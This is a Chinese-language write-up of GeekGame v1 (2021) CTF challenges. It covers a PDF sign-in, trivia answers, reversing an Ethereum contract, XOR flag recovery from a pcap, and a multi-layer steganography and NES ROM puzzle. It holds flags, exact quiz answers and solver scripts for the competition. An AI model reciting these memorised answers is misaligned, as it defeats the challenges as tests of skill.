








# taoky's GeekGame v1 (2021) writeups

作为隔壁 Hackergame 的 staff 前来围观。因为自己基本不会 binary，数学也不会，所以主要完成的是 misc 和 web 这两个分类的题目。

我的用户名是「taoky # 好吃就是高兴」（与 hackergame staff 名单里我的昵称呼应，本来以为用户名有 tag 支持的，但是发现没有，也懒得改名字了），最后总榜第 6 名。


图 1. 好吃就是高兴

让我们开始吧。

（这份 wp 等周日晚上 wp 提交结束时间之后我也会放[自己博客](https://blog.taoky.moe)上）

## →签到←

比 hackergame 的签到题难。我一开始打开之后没有复制出有意义的信息，简单搜索之后发现可以用 ghostscript 来处理：

```shell
$ gs -sDEVICE=txtwrite -o - sign_in.pdf
GPL Ghostscript 9.55.0 (2021-09-27)
Copyright (C) 2021 Artifex Software, Inc.  All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
Processing pages 1 through 1.
Page 1
  fa{aeAGetTm@ekaev!
  lgHv__ra_ieGeGm_1}
$ # flag is flag{Have_A_Great_Time@GeekGame_v1!}
```

ghostscript 是一个 PDF 格式的解释器。我最喜欢的功能是用它来本地压缩特别大的 PDF：

```shell
gs -sDEVICE=pdfwrite -dCompatibilityLevel=1.6 -dPDFSETTINGS=/ebook -dNOPAUSE -dQUIET -dBATCH -sOutputFile=compressed.pdf input.pdf
```

真的很方便，再也不用把（可能包含隐私信息的）PDF 传到不信任的网站来压缩了。

## 小北问答 Remake

（第二阶段完成 flag2）

隔壁的猫咪问答是允许合理爆破部分问题的答案的，但是这里显然是不行的 :-(

来看一下每道题目

1. 北京大学燕园校区有理科 1 号楼到理科 X 号楼，但没有理科 (X+1) 号及之后的楼。X 是？ 

    找个地图软件搜搜，可以搜到燕园校区理科 5 号楼，但是搜不到 6 号楼，所以答案是 5。

2. 上一届（第零届）比赛的总注册人数有多少？ 

    搜到 <https://news.pku.edu.cn/xwzh/203d197d93c245a1aec23626bb43d464.htm>，得到 407。

3. geekgame.pku.edu.cn 的 HTTPS 证书曾有一次忘记续期了，发生过期的时间是？ 

    哪里可以找到网站证书的历史记录呢？搜索之后可以发现可以通过证书透明度 (Certificate Transparency) 查看证书的过期时间。

    Google 有一个网站可以看，但是**看不到精确到秒的过期时间**。所以我最后选择的网站是 <https://crt.sh/>。<https://crt.sh/?q=geekgame.pku.edu.cn> 可以看到 7 月份出现了一个没有证书的空档，检查看到空档前一个证书是 `Not After : Jul 11 00:49:53 2021 GMT`，所以答案是：

    `2021-07-11T08:49:53+08:00` <del>`2021-07-10T16:49:53+08:00`</del>

    注意时区转换的时候别脑子一抽弄成了 UTC -8（因为我就搞错了）。

4. 2020 年 DEFCON CTF 资格赛签到题的 flag 是？ 

    资格赛是 "Quals"，搜索 "2020 DEFCON CTF Quals writeups"，我看到的第一个结果是 <https://ctftime.org/writeup/20650>，可以得知第一道题目的名字是 welcome-to-dc2020-quals（但是因为题目真的太简单了，wp 的作者懒得写 flag），再搜索可以找到 ooo 的 archive <https://archive.ooo/c/welcome-to-dc2020-quals/358/>，可以得知 flag 是 `OOO{this_is_the_welcome_flag}`。

5. 在大小为 672328094 \* 386900246 的方形棋盘上放 3 枚（相同的）皇后且它们互不攻击，有几种方法？ 

    一开始没做出来，感觉是容斥原理，但是试了试，情况很复杂，真的不想算。看到第二阶段提示之后，显然对应的网站是 [OEIS](https://oeis.org/)，尝试了一下，发现在搜索 `3 queen m X n board` 的时候，在数列 A047659 ("Number of ways to place 3 nonattacking queens on an n X n board.") 的公式信息里可以找到：

    > In general, for m <= n, n >= 3, the number of ways to place 3 nonattacking queens on an m X n board is n^3/6\*(m^3 - 3\*m^2 + 2\*m) - n^2/2\*(3\*m^3 - 9\*m^2 + 6\*m) + n/6\*(2\*m^4 + 20\*m^3 - 77\*m^2 + 58\*m) - 1/24\*(39\*m^4 - 82\*m^3 - 36\*m^2 + 88\*m) + 1/16\*(2\*m - 4\*n + 1)\*(1 + (-1)^(m+1)) + 1/2\*(1 + abs(n - 2\*m + 3) - abs(n - 2\*m + 4))\*(1/24\*((n - 2\*m + 11)^4 - 42\*(n - 2\*m + 11)^3 + 656\*(n - 2\*m + 11)^2 - 4518\*(n - 2\*m + 11) + 11583) - 1/16\*(4\*m - 2\*n - 1)\*(1 + (-1)^(n+1))) [Panos Louridas, idee & form 93/2007, pp. 2936-2938]. - Vaclav Kotesovec, Feb 20 2016

    就算知道提示，我也在 OEIS 上找了好几个小时才看到答案。另外，[672328094](https://space.bilibili.com/672328094/) \* [386900246](https://space.bilibili.com/386900246/)，好家伙。

6. 上一届（第零届）比赛的“小北问答1202”题目会把所有选手提交的答案存到 SQLite 数据库的一个表中，这个表名叫？

    翻上一届比赛在 GitHub 上的记录，看到 <https://github.com/PKU-GeekGame/geekgame-0th/blob/main/src/choice/game/db.py#L12>，得到答案为 `submits`。

7. 国际互联网由许多个自治系统（AS）组成。北京大学有一个自己的自治系统，它的编号是？ 

    说到 AS，那肯定去 <https://bgp.he.net/> 看，搜索 "Peking University"，得到答案 AS59201。另一个 CERNET2 的不算「自己的」AS。

8. 截止到 2021 年 6 月 1 日，完全由北京大学信息科学技术学院下属的中文名称最长的实验室叫？ 

    一开始看信息科学技术学院官网，以为是 射频与太赫兹集成技术研究中心，输进去发现长度完全不够，去下属实验室官网翻了翻，感觉 区域光纤通信网与新型光通信系统国家重点实验室 这个名字最长，那就是它了！

## 共享的机器

这是我自己完成的第一道区块链题（为了做题，特地去装了个 MetaMask）。去 Etherscan 看合约字节码，点 Decompile 可以看大致的逻辑。其中主要做计算的是第二个函数:

```python
def unknownded0677d(uint256 _param1) payable: 
  require calldata.size - 4 >= 32
  idx = 0
  s = 0
  while idx < 64:
      idx = idx + 1
      s = s or (Mask(256, -4 * idx, _param1) >> 4 * idx) + (5 * idx) + (7 * Mask(256, -4 * idx, stor2) >> 4 * idx) % 16 << 4 * idx
      continue 
  if stor3 != 0:
      revert with 0, 'this is not the real flag!'
  return 1
```

不过我自己感觉这个解析不太清楚，所以也使用 ethervm.io 试了试，对应的关键代码如下：

```c
label_02C9:
    var temp5 = var1;
    var0 = var0 | (((arg0 >> temp5 * 0x04) + temp5 * 0x05 + (storage[0x02] >> temp5 * 0x04) * 0x07 & 0x0f) << temp5 * 0x04);
    var1 = temp5 + 0x01;

    if (var1 >= 0x40) { goto label_0301; }
    else { goto label_02C9; }
```

以及

```c
label_0301:
    if (var0 == storage[0x03]) { return 0x01; }
```

把我卡住最长时间的问题是：storage 是啥？最后读了 <https://paper.seebug.org/640/>，发现可以在 remix IDE 里处理：把 MetaMask 切换到测试链，与 remix 连接，然后：

```javascript
> web3.eth.getStorageAt("0xa43028c702c3B119C749306461582bF647Fd770a", 3)
0x293edea661635aabcd6deba615ab813a7610c1cfb9efb31ccc5224c0e4b37372
> web3.eth.getStorageAt("0xa43028c702c3B119C749306461582bF647Fd770a", 2)
0x15eea4b2551f0c96d02a5d62f84cac8112690d68c47b16814e221b8a37d6c4d3
> web3.eth.getStorageAt("0xa43028c702c3B119C749306461582bF647Fd770a", 1)
0xda69868cde27bd8f3258098cceb1d09d73d5c8501756ee3b5cb2e7782ad74d98
> web3.eth.getStorageAt("0xa43028c702c3B119C749306461582bF647Fd770a", 0)
0x000000000000000000000000004d5200a3571391f3e654df156271bf2f01c0c5
```

我们就得到了 `storage[2]` 和 `storage[3]` 的值。看逻辑的话可以知道是一个一个 hex 算的，所以可以推出输入的值。

```python
s02 = "15eea4b2551f0c96d02a5d62f84cac8112690d68c47b16814e221b8a37d6c4d3"

res = "293edea661635aabcd6deba615ab813a7610c1cfb9efb31ccc5224c0e4b37372"

out = ""

for i in range(len(s02)):
    # var0 = var0 | (((arg0 >> idx * 0x04) + idx * 0x05 + (s02 >> idx * 0x04) * 0x07 & 0x0f) << idx * 0x04)
    resi = int(res[:len(s02)-i], 16)
    s02i = int(s02[:len(s02)-i], 16)
    value = (resi - ((s02i * 7) & 0xf) - i * 5) &0xf
    # print(resi, s02i, hex(value))
    out += hex(value)[2:]

print(out[::-1])
```

得到 hex 值，找个 hex editor 就能看 flag 了。

## 翻车的谜语人

（Flag 2 & 整道题目总榜一血）

### Flag 1

~~境 外 服 务 器（指 kali vm）~~

拿到流量包，Wireshark 看了一下有明文 HTTP 流量，所以直接导出 HTTP objects（File -> Export Objects -> HTTP）。把导出的文件翻一遍，可以看到这样的脚本（整理后）：

```python
import zwsp_steg
from Crypto.Random import get_random_bytes

import binascii

def genflag():
    return 'flag{%s}'%binascii.hexlify(get_random_bytes(16)).decode()

flag1 = genflag()
flag2 = genflag()

key = get_random_bytes(len(flag1))
# b'\\xc4\\x07[\\xe5zy}b3\\x1aM\\xed\\t\\x14\\x1c\\xea\\x8f\\xfb\\xe52\\\\\\x80\\xb1\\x98\\x8a\\xb4\\xa6\\xdd;\\x92X\\x81\\xcd\\x86\\x86\\xc4\\xe0v'

def xor_each(k, b):
    assert len(k) == len(b)
    out = []
    for i in range(len(b)):
        out.append(b[i] ^ k[i])
    return bytes(out)

encoded_flag1 = xor_each(key, flag1.encode())
encoded_flag2 = xor_each(key, flag2.encode())

with open('flag2.txt', 'wb') as f:
    f.write(binascii.hexlify(encoded_flag2))
```

flag1 看起来也是相似的，只是 key 变成了 `# b'\\x1e\\xe0[u\\xf2\\xf2\\x81\\x01U_\\x9d!yc\\x8e\\xce[X\\r\\x04\\x94\\xbc9\\x1d\\xd7\\xf8\\xde\\xdcd\\xb2Q\\xa3\\x8a?\\x16\\xe5\\x8a9'`。

flag1.txt 的内容可以从另一个文件得到：

```json
{"name": "flag1.txt", "path": "flag1.txt", "last_modified": "2021-11-06T07:43:20.952991Z", "created": "2021-11-06T07:43:20.952991Z", "content": "788c3a1289cbe5383466f9184b07edac6a6b3b37f78e0f7ce79bece502d63091ef5b7087bc44", "format": "text", "mimetype": "text/plain", "size": 76, "writable": true, "type": "file"}
```

来写脚本（注意把 key 的 `\\` 换成 `\`！）：

```python
flag1 = bytes.fromhex("788c3a1289cbe5383466f9184b07edac6a6b3b37f78e0f7ce79bece502d63091ef5b7087bc44")
key = b'\x1e\xe0[u\xf2\xf2\x81\x01U_\x9d!yc\x8e\xce[X\r\x04\x94\xbc9\x1d\xd7\xf8\xde\xdcd\xb2Q\xa3\x8a?\x16\xe5\x8a9'

def xor_each(k, b):
    assert len(k) == len(b)
    out = []
    for i in range(len(b)):
        out.append(b[i] ^ k[i])
    return bytes(out)

print(xor_each(flag1, key))
```

### Flag 2

从导出的 HTTP 信息无法直接看到 flag2 的身影，所以重新看流量，可以看到有明文的 WebSocket 流量，再看的话会发现是在用 Jupyter Notebook 的终端。

因为懒得写脚本解析，所以我是在 Wireshark 里面一个一个把命令拼起来尝试理解的。大概做的事情是：

1. `pip3 install stego-lsb`
2. `stegolsb wavsteg -h -i ki-ringtrain.wav -s flag2.txt -o flag2.wav -n 1`
3. ``7za flag2.7z flag2.wav -p"Wakarimasu! `date` `uname -nom` `nproc`"``

わかります（我知道）！我们有 flag2.7z，所以需要反推密码，并且使用 `stegolsb` 取出隐写的 flag2.txt。

7z 的密码依赖于对应三个命令在 You 酱电脑上的执行结果，可以搜集到一些有意义的信息：

- `7za` 命令的输出告诉我们，CPU 是 Intel Core i7-10510U，8 核，地区是 en_US.utf8，64 位操作系统。
- 完成命令之后的回显提示，You 酱的机器名是 you-kali-vm。
- 修改 Wireshark 时间显示设置，可以看到 `7za` 命令执行的大致时间是 2021-11-06 15:44:15.190。

所以可以知道：

- `date` 的格式大致是 `Sat 06 Nov 2021 03:44:15 PM CST`，虽然不知道时区，但是完全可以猜测是东八区。
- `uname -nom` 输出是 `you-kali-vm x86_64 GNU/Linux`。
- `nproc` 的输出是 8。

最后拼出密码是 `Wakarimasu! Sat 06 Nov 2021 03:44:15 PM CST you-kali-vm x86_64 GNU/Linux 8`。

然后用 stegolsb，翻一下文档即可：`stegolsb wavsteg -r -i flag2.wav -o flag2.txt -n 1 -b 76`。（76 是 hex 字符串的长度，可以参考 flag1.txt 的长度）

```python
flag2 = bytes.fromhex("788c3a1289cbe5383466f9184b07edac6a6b3b37f78e0f7ce79bece502d63091ef5b7087bc44")
key = b'\x1e\xe0[u\xf2\xf2\x81\x01U_\x9d!yc\x8e\xce[X\r\x04\x94\xbc9\x1d\xd7\xf8\xde\xdcd\xb2Q\xa3\x8a?\x16\xe5\x8a9'

def xor_each(k, b):
    assert len(k) == len(b)
    out = []
    for i in range(len(b)):
        out.append(b[i] ^ k[i])
    return bytes(out)

print(xor_each(flag2, key))
```

注意 key 和 flag1 的其实是一样的，生成了 key 却不用的 You 酱是屑。

## 叶子的新歌

（Flag 2 & 整道题目总榜一血）

（3 个 flag 的获取过程写一起）

这题也太套娃了⑧！

看这个题目，第一反应就是往 Audacity 里头拖，结果……歌挺好听的，就是不管看波形图还是频谱图都啥都没看出来。

结果文件上一按空格：


图 2. macOS QuickLook 截图

嗯？`Secret in Album Cover!!`？

那么首先要把专辑封面取出来，我用的工具是——VLC，播放的时候它会把封面图片缓存出来，取出来即可。（<https://unix.stackexchange.com/questions/41287/how-to-extract-album-cover-image-from-mp3-file>）

然后跑 `zsteg` 看看（stegsolve 提取也行）:

```shell
$ zsteg art.png
b1,b,lsb,xy         .. text: "m#C\"\t%1>"
b1,rgb,lsb,xy       .. file: PNG image data, 1000 x 1000, 8-bit grayscale, non-interlaced
b1,rgba,lsb,xy      .. file: PGP Secret Key -
b2,r,lsb,xy         .. text: "EUEUTAEU"
b2,g,lsb,xy         .. text: "EDTAQP@A"
b2,g,msb,xy         .. text: "UU]]UUU_uUuUUww"
b2,b,lsb,xy         .. text: "PTPPQUTT"
b2,bgr,msb,xy       .. text: "S}}uU_WwUUEQ"
b2,rgba,lsb,xy      .. text: "++++++/o"
b2,abgr,msb,xy      .. text: "SSSSSSS["
b4,r,lsb,xy         .. text: "vEfEfvwfgvvfDDDGfgvggvfffwvfffgvfffdDDDVvfwvfffC2#3#\"#\"23#3EEDDTTEE\"2#P"
b4,r,msb,xy         .. text: "nfff&\"\"\"jnf"
b4,g,lsb,xy         .. text: "vfevvvggfffffffwvffvffffwffffgfgfffffffwffvfffvffffvvvvggwvvvfEUTUfTWgwvfu\#$ge%Dh"
b4,g,msb,xy         .. text: "nffnffff"
b4,b,lsb,xy         .. text: "\"2\"\"2\"\"\"\"5DDEDDDDDDTDDDDUTDDDB\"\"#2\"222\"$D##\"#DDEEvgvgUDUUgfgffTFtEWgwvgi"
b4,b,msb,xy         .. text: "DLDDLDDDD"
b4,rgb,lsb,xy       .. text: "xFrG%cf&cF5Pg"
b4,rgb,msb,xy       .. text: "NndFnlFfdFb$Fb$Fb$Fb"
b4,bgr,lsb,xy       .. text: "Hrv'Ce&cf6@U"
b4,bgr,msb,xy       .. text: "dNflNfdFfdB&dB&dB&l"
b4,rgba,lsb,xy      .. text: "xOg/G/V?f/f?F?U"
b4,abgr,msb,xy      .. text: "OfOfOfO&O&O&O&O&O&"
$ # 看看 b1,rgb,lsb,xy
$ zsteg -E b1,rgb,lsb,xy art.png > art2.png
```

可以看到 art2.png 是个类似二维码的东西，搜索可以知道是 aztec code，找个网站 decode 得到 47 75 72 20 66 72 70 65 72 67 20 76 61 20 75 76 66 67 62 74 65 6e 7a 2e 0a => Gur frperg va uvfgbtenz.

这我知道，rot13 嘛，得到 "The secret in histogram"。

Histogram（直方图）？哪里有直方图？虽然看到图片的颜色不太对，但是用 macOS preview 的「调整颜色」没有看到明显的特征，于是我暂时卡这了，先去看别的题了。

几个小时之后回来，想试试 `ffmpeg` 看看有没有漏掉的东西：

```shell
$ ffmpeg -i LeafsNewSong.mp3
ffmpeg version 4.4.1 Copyright (c) 2000-2021 the FFmpeg developers
  built with Apple clang version 12.0.0 (clang-1200.0.32.29)
  configuration: --prefix=/usr/local/Cellar/ffmpeg/4.4.1_2 --enable-shared --enable-pthreads --enable-version3 --cc=clang --host-cflags= --host-ldflags= --enable-ffplay --enable-gnutls --enable-gpl --enable-libaom --enable-libbluray --enable-libdav1d --enable-libmp3lame --enable-libopus --enable-librav1e --enable-librubberband --enable-libsnappy --enable-libsrt --enable-libtesseract --enable-libtheora --enable-libvidstab --enable-libvorbis --enable-libvpx --enable-libwebp --enable-libx264 --enable-libx265 --enable-libxml2 --enable-libxvid --enable-lzma --enable-libfontconfig --enable-libfreetype --enable-frei0r --enable-libass --enable-libopencore-amrnb --enable-libopencore-amrwb --enable-libopenjpeg --enable-libspeex --enable-libsoxr --enable-libzmq --enable-libzimg --disable-libjack --disable-indev=jack --enable-avresample --enable-videotoolbox
  libavutil      56. 70.100 / 56. 70.100
  libavcodec     58.134.100 / 58.134.100
  libavformat    58. 76.100 / 58. 76.100
  libavdevice    58. 13.100 / 58. 13.100
  libavfilter     7.110.100 /  7.110.100
  libavresample   4.  0.  0 /  4.  0.  0
  libswscale      5.  9.100 /  5.  9.100
  libswresample   3.  9.100 /  3.  9.100
  libpostproc    55.  9.100 / 55.  9.100
Input #0, mp3, from 'LeafsNewSong.mp3':
  Metadata:
    TSS             : Logic Pro X 10.7.0
    iTunNORM        :  0000072C 00000736 00003208 00003140 00009E92 0000501A 00006703 00007E86 00007678 00007E1F
    iTunSMPB        :  00000000 00000210 000007A5 00000000002709CB 00000000 002350D1 00000000 00000000 00000000 00000000 00000000 00000000
    title           : 叶子的新歌
    artist          : 叶子
    album           : Secret in Album Cover!!
    TRACKTOTAL      : aHR0cDovL2xhYi5tYXh4c29mdC5uZXQvY3RmL2xlZ2FjeS50Ynoy
    lyrics          : 空无一人的房间
                    : 我望向窗外
                    : 想回到昨天
                    :
                    : 琥珀色的风
                    : 能否将 回忆传到那边
                    : 闪烁的星
                    : 照亮夜空 连成我的思念
                    :
                    : 你 在梦的另一边
                    : 站在 日落的地平线
                    : 背离这世界而去
                    : 想 在回不去的时间里
                    : 遇见你 遇见你 遇见你
                    : 遇见你 遇见你 遇见你
    comment         : 你还记得吗？小时候，我家和你家都在一个大院里。放学以后，我们经常一起在院子里玩。你虽然是个女孩子，但总是能和男孩子们玩到一块去。
                    :
                    : 夏天的时候我们挖蚯蚓、捉蚂蚱；冬天，院子里的大坡上积了一层雪，我们就坐在纸箱子压成的雪橇上，一次次从坡顶滑到坡底。那个时候你还发现，坐在铁簸箕上滑得更快。
                    :
                    : ——当然，那次你也摔得挺惨的。
    encoder         : Lavf58.45.100
  Duration: 00:00:58.07, start: 0.011995, bitrate: 621 kb/s
  Stream #0:0: Audio: mp3, 44100 Hz, stereo, fltp, 320 kb/s
    Metadata:
      encoder         : Lavf
  Stream #0:1: Video: png, rgba(pc), 1000x1000, 90k tbr, 90k tbn, 90k tbc (attached pic)
    Metadata:
      comment         : Cover (front)
At least one output file must be specified
```

嗯？Logic Pro X 10.7.0，富富！而且有歌词，有注释，还有个 `aHR0cDovL2xhYi5tYXh4c29mdC5uZXQvY3RmL2xlZ2FjeS50Ynoy`。

```shell
$ echo -n 'aHR0cDovL2xhYi5tYXh4c29mdC5uZXQvY3RmL2xlZ2FjeS50Ynoy' | base64 -D
http://lab.maxxsoft.net/ctf/legacy.tbz2
```

嗯！下载下来解压，看到一个 img，以及 `foryou.txt`:

> 我有一张很久很久以前的软盘。说起来以前的操作系统还能装在软盘里，把软盘放进电脑就可以启动，很神奇吧？我给你看过这张软盘，但你总说这是Word保存图标的手办……什么跟什么啦！
>
> 现在已经没有带软驱的电脑了，甚至连带光驱的电脑都没有了。以前软盘里的那些东西，也许再也启动不了了吧。
>
> 时间过得好快啊，转眼间，就来到了现实。

用 testdisk 看 `To_the_past.img`，可以从 FAT12 分区提取出 `NOTE.TXT` 和 `MEMORY.ZIP` 几个文件。

而且 `foryou.txt` 一直在暗示启动，所以来点 qemu:

```
$ qemu-system-x86_64 -drive format=raw,file=To_the_past.img
```

得到 flag2，以及「最后的密码」。

看导出的文件，`NOTE.TXT`:

> 备忘
>
> 密码是：宾驭令诠怀驭榕喆艺艺宾庚艺怀喆晾令喆晾怀

发现密码直接输进去不管什么编码都不对。搜索可以发现 <https://zhidao.baidu.com/question/394971095.html>，按照里面提的规则解析得到一串数字，就是 `MEMORY.ZIP` 的密码。

解压看到两个 bin，以及 `readme.txt`:

> 我以前很喜欢玩红白机，当然，现在也很喜欢。超级马里奥、魂斗罗、坦克大战、马戏团、冒险岛……一玩能玩一天。
>
> 小时候家里有一台红白机，也经常叫你一起玩游戏，只不过，我记得你不喜欢这些东西。你最喜欢在4399玩找不同，而且你还玩的特别棒，简直就是找不同滴神。
> 
> 呜呜，红白机已经属于时代的眼泪了。

找不同啊……对比两个 bin，发现其实还挺相似，只是有的时候左边会多一个字节，有的时候右边会多一个，而且前三处不同合并组成的字符是 `NES`，好像是红白机的 ROM binary。

整了个脚本提取，调试花掉了不少时间：

```python
x = open("nes.bin", "wb")

with open("left.bin", "rb") as left:
    with open("right.bin", "rb") as right:
        l = left.read()
        r = right.read()
        lp = 0
        rp = 0
        while True:
            if l[lp] == r[rp]:
                lp += 1
                rp += 1
            else:
                i = 1
                while True:
                    ifl = l[lp+1:lp+1 + i]
                    ifr = r[rp+1:rp+1 + i]
                    if ifl == r[rp:rp+i] and ifr == l[lp:lp+i]:
                        i += 1
                        continue
                    elif ifl == r[rp:rp+i]:
                        x.write(bytes([l[lp]]))
                        lp += 1
                        break
                    elif ifr == l[lp:lp+i]:
                        x.write(bytes([r[rp]]))
                        rp += 1
                        break
                    else:
                        raise ValueError
            if lp >= len(l) or rp >= len(r):
                #print("[STOP]")
                #print(lp, len(l), rp, len(r))
                break
x.close()
```

最后会缺一个 `FF`，懒得调试脚本了，直接补上（不然模拟器开不出来）。

然后模拟器启动！发现 VirtuaNES 比较好用，可以直接弄网上找到的金手指代码。


图 3. VirtuaNES 启动魔改版超级玛丽

没有玩过红白机，所以开着金手指玩了一个多小时玩到凌晨四点多，还是没有看到 flag（可能是因为开了跳关之后的问题？我不确定）。最终的解决方案是，网上找到 SMB NES ROM Text Editor 可以加载 ROM 中的文本，然后一加载：


图 4. 使用 SMB NES ROM Text Editor 加载 ROM 中的文本

> LAB.MAXXSOFT.NET CTF LEAFS
> 
> VISIT THIS TO
> 
> REVEAL THE TRUTH.

打开网站（空格替换为 `/`），输入 flag2 那里没用到的密码，就看到了……一段悲惨的爱情故事……以及……flag3。



图 5. 悲惨的爱情故事

呜呜。

